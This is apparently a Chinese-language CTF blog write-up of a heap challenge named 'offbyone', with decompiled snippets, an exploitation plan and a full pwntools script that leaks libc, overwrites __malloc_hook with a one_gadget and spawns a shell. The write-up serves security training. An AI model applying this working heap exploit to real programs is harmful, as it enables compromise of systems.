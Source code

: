 ```yaml
---
title: Offbyone_basic
date: 2018-10-05 19:34:29
tags: heap pwn
layout: post
---
```

Offbyone 忘记了哪儿的题目...基础offbyone
<!--more-->

# start
一上来我还突发奇想看看可不可以house of force发现有sysmem的限制...
然后因为同时在看另一道heap_interface(一题没有泄露的)把两题搞混了...做了半天发现这题是有泄露的...

# Analysis
题目:[offbyone][1]
木有uaf
```arm
 if ( v1 >= 0 && v1 <= 15 && qword_2020C0[v1] )
  {
    free(qword_2020C0[v1]);
    qword_2020C0[v1] = 0LL;
    puts("done.");
  }
```
但是可以想办法泄露


主要的漏洞点在
```arm
  if ( v1 >= 0 && v1 <= 15 && qword_2020C0[v1] )
  {
    puts("your note:");
    v2 = strlen((const char *)qword_2020C0[v1]);
    read(0, qword_2020C0[v1], v2);
    puts("done.");
  }
```
如果充满chunk那么nextchunk的size位将被算进strlen就有了offbyone

# 漏洞利用
* 利用offbyone改大nextchunk的size
* 造成overlap：free掉nextchunk进入unsortedbin
* 通过精心设计的两次malloc使得有两个指向同一个chunk的指针，malloc第一次的时候可以shownextchunk来leak
* 通过fastbinatk写malloc_hook为one_gadget
* printerr get shell
# EXP
```python
from pwn import *

p=process('./offbyone')
#context.log_level='debug'
def add(size,x):
    p.recvuntil('>>')
    p.sendline('1')
    p.readuntil('length:')
    p.sendline(str(size))
    p.recvuntil('note:')
    p.send(x)

def edit(id,x):
    p.recvuntil('>>')
    p.sendline('2')
    p.recvuntil('index:')
    p.sendline(str(id))
    p.recvuntil('note:')
    p.send(x)

def free(id):
    p.recvuntil('>>')
    p.sendline('3')
    p.recvuntil('index:')
    p.sendline(str(id))

def show(id):
    p.recvuntil('>>')
    p.sendline('4')
    p.recvuntil('index:')
    p.sendline(str(id))
def debug():
	if 1:
		gdb.attach(p,'''
		heap
		''')	

#######################
#use off by one to    #
#make fastbinsatk     #
#write one_gadget into#
#__malloc_hook 	      #
#######################

add(0x18,"A"*0x18)#0
add(0x88,"B"*0x88)#1
add(0x88,"C"*0x18+p64(0x21)+"C"*8+p64(0x21)+"C"*8+p64(0x21)+"C"*8+p64(0x21)+"C"*8+p64(0x21)+"C"*8+p64(0x21)+"C"*8+p64(0x21))#2
edit(0,"A"*0x18+"\xb1")
free(1)
add(0x88,"E"*0x88)#3
show(2)
data=p.readline()
base=u64(data[1:-1].ljust(8,"\0"))-(0x7ffff7dd1b78-0x7ffff7a0d000)
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc.address=base
log.warning(hex(base))


add(0x8,p64(0xdeadbeef))
edit(1,"E"*0x88+"\x71")
add(0x68,"D"*0x68)
free(4)
free(3)
edit(2,p64(libc.symbols['__malloc_hook']-35)[:6])

one=0xf02a4
add(0x68,"E"*0x68)
add(0x68,"F"*19+p64(one+base))#OK
#gdb.attach(p)
free(3)
free(2)
p.interactive("nier>")

```
[1]:https://github.com/n132/banana/tree/master/Pwn/heap_trick/offbyone